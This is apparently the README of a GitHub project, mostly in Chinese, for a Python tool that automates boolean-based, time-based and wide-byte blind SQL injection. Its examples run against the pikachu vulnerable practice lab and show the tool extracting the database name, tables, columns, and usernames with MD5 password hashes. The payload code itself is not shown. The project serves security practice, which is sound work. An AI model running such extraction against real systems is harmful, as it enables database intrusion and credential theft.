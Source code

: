 # sqli_blind
A simple tool/framework for boolean-based or time-based sql injection(blind) 

**sqli_blind是一款用于基于布尔的SQL盲注和基于时间的SQL盲注的简单工具/框架**

# 简介

sql_blind是为了方便SQL盲注而开发的小工具/框架，目前支持基于布尔的SQL盲注（包括宽字节注入）和基于时间的SQL盲注。
其主要目的是辅助手工注入，缩短手工注入的时间。
使用者需要根据实际情况修改payload和部分参数。
小工具（的示例）基于pikachu漏洞平台SQL-Inject的两个盲注关卡以及宽字节注入关卡开发，如有必要可以用这3个关卡进行测试。

# 项目地址

https://github.com/JacquelinXiang/sqli_blind/tree/main

# 环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb.py，sqli_tb.py和sqli_bb_widebyte.py的payload和部分参数

2 命令行进入源代码所在文件夹（比如sqli_blind）上级文件夹
输入
python
\>\>\> from sqli_blind import *
然后调用各函数即可

# 示例

## 布尔盲注

```
以pikachu漏洞平台SQL-Inject的布尔盲注关卡为例：

>>> from sqli_blind import *
>>> CurrentDatabaseBool()
the name of current database contains 7 characters
the name of current database is PIKACHU
>>> TablesBool()
the name of all tables in current database contains 38 characters
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND
>>> ColumnsBool()
the name of all columns in current table contains 164 characters
the name of all columns in current table is USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD
>>> ContentBool()
the content contains 117 characters
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03
```



## 时间盲注

```
以pikachu漏洞平台SQL-Inject的时间盲注关卡为例：

>>> from sqli_blind import *
>>> CurrentDatabaseTime()
the name of current database contains 7 characters
the name of current database is PIKACHU
>>> TablesTime()
the name of all tables in current database contains 38 characters
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND
>>> ColumnsTime()
the name of all columns in current table contains 164 characters
the name of all columns in current table is USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOG!N,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD
>>> ContentTime()
the content contains 117 characters
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03
```



## 布尔盲注+宽字节注入

```
以pikachu漏洞平台SQL-Inject的宽字节注入关卡为例：

>>> from sqli_blind import *
>>> CurrentDatabaseWide()
the name of current database contains 7 characters
the name of current database is pikachu
>>> TablesWide()
the name of all tables in current database contains 38 characters
the name of all tables in current database is httpinfo,member,message,users,xssblind
>>> ColumnsWide()
the name of all columns in current table contains 164 characters
the name of all columns in current table is user_id,first_name,last_name,user,password,avatar,last_login,failed_login,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password,level,id,username,password
>>> ContentWide()
the content contains 117 characters
the content is admin~e10adc3949ba59abbe56e057f20f883e,pikachu~670b14728ad9902aecba32e22fa4f6bd,test~e99a18c428cb38d5f260853678922e03
```

